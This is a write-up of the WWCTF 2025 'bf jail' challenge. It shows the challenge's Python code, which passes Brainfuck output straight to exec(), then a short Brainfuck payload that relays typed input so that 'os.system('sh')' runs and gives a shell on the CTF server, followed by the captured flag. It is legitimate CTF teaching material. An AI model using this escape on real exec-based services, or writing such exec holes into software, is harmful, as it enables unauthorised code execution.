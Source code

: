 <details>
<summary>++++++++++[.,]</summary>

# bf jail write-up (WWCTF 2025)

**Name:** bf jail

**Description:** Jail but with my best friend? That doesn't sound too bad. Oh wait...

**Type:** Miscellaneous / Brainf\*ck / Code Golf

**Author:** dfoo

**File:** [chall.py](/bf%20jail/chall.py)

## Analysis

Check the code:
```python
#!/usr/bin/env python3
import sys


def bf(code):
    output = ""
    s = []
    matches = {}
    tape = [0] * 1000000
    for i, j in enumerate(code):
        if j == "[":
            s.append(i)
        if j == "]":
            m = s.pop()
            matches[m] = i
            matches[i] = m
    cp = 0
    p = 0
    while cp < len(code):
        if code[cp] == "+":
            tape[p] = (tape[p] + 1) % 256
        if code[cp] == "-":
            tape[p] = (tape[p] - 1) % 256
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
        if code[cp] == ".":
            output += chr(tape[p])
        if code[cp] == "<":
            p -= 1
        if code[cp] == ">":
            p += 1
        if code[cp] == "[":
            if not tape[p]:
                cp = matches[cp]
        if code[cp] == "]":
            if tape[p]:
                cp = matches[cp]
        cp += 1

    return output
...
```
Ok it's just brainf\*ck parser, keep reading:
```python
...
if __name__ == "__main__":
    code = input("> ")
    if len(code) > 200:
        print("200 chars max")
        sys.exit(0)
    if not all(c in set("+-<>[],.") for c in code):
        print("nope")
        exit(0)
    code = bf(code)
    exec(code)
```
Hmm, so it's golfing with brainf\*ck. It's also friendly enough to run whatever our brainf\*ck code spits out - that's promising, just get the code to generate `import os;os.system('sh')` and we get the shell.

## Attempts to solve

### 0. Golfing

Get a generator to convert the string above into brainf\*ck, and perform all the necessary cancellations and optimizations possible.

However, I'm new to golfing with brainf\*ck and ~am a lazy a\*\*~ don't want to [learn it](https://codegolf.stackexchange.com/questions/12973/tips-for-golfing-in-brainfuck) on the fly, so I need to find an easier way out.

### 1. Input

Look at the parser more carefully:
```python
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
```
That's helpful - we're allowed to enter stuff ourselves! Just get a piece of basic brainf\*ck code to relay our input to output and we're done:
```brainfuck
+[,.]
```
`+` increase the data pointer to 1 to enter the loop. The loop is kept open as long as the character has an ASCII code greater than 0 (i.e. not a null byte). We can then enter whatever we want and finish with a null byte:
```
$ nc chal.wwctf.com 6002
> +[,.]
import os 
os.system('sh')
^@
Traceback (most recent call last):
  File "/app/run", line 53, in <module>
    exec(code)
ValueError: source code string cannot contain null bytes
```
It even support multiline code now, and...

Oh... the null byte is going to enter the string too. Gotta fix that now.

### 2. Not letting the null byte in

The simplest fix is to swap `,` and `.` so the entered character is tested by `[` first. The downside is that whatever is before `[` will get put in as the first character. The first character we want is `i` with ASCII code 105, so...
```
$ nc chal.wwctf.com 6002
> +++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++[.,]
mport os
os.system('sh')
^@
echo Voilà!  # input
Voilà!
```
We have the shell now.

### 3. Optimize the solution

The above works, but it is:
- ugly: the first character always gets left out
- not general: if we want to change the first character (if we ever want to do this), we have to count the number of `+`s again

Then suddenly, I had a spark in my mind: `\n` is a valid Python code! The brainf\*ck code then greatly simplifies:
```brainfuck
++++++++++[.,]
```
`++++++++++` sets the data pointer to 10 (the ASCII code of `\n`), the first execution of `.` then puts down a `\n`, and the loop executes until a null byte is entered, which is discarded. With this, we finally have

## The solution
```
$ nc chal.wwctf.com 6002
> ++++++++++[.,]
import os
os.system('sh')
^@
ls  # input
flag.txt
run
cat flag.txt  # input
wwf{4n0th3r_CTF_4n0t3r_br41nfcK_ch4ll_7696bd540337f}
```
I really liked this solution. You can now run Python code as it is from a file:
```
$ nc chal.wwctf.com 6002
> ++++++++++[.,]
while True:
    print(input('> ').replace('I', 'you')
                     .replace('my', 'your')
                     .replace('am', 'are'))
^@
> 
> What am I doing with my life
What are you doing with your life
> bruh
bruh
> 
```

---
<details>
<summary>Afterthought</summary>

As the author @dfoo said in the Discord chat, the uploaded version of the challenge was unfortunately the wrong version. The correct version should also blacklist `,` and certain keywords, forcing the players to golf `import os;os.system('sh')` in brainf\*ck. I feel a bit sorry about this, but hey, that's all the fun isn't it? 😉

As [@maximxlss](https://github.com/maximxlss) pointed out, the idea in [stage 1](#1-input) will work with some simple nested brackets
```brainfuck
+[,[.>]<]
```
This ended up even shorter than my final solution, and really captures the original spirit of the challenge even in this wrong version. I greatly appreciate the simplicity of this solution, so I relayed it here.

That being said, my monke brain would not have worked that out during the event tho. 🤪
</details>
</details>
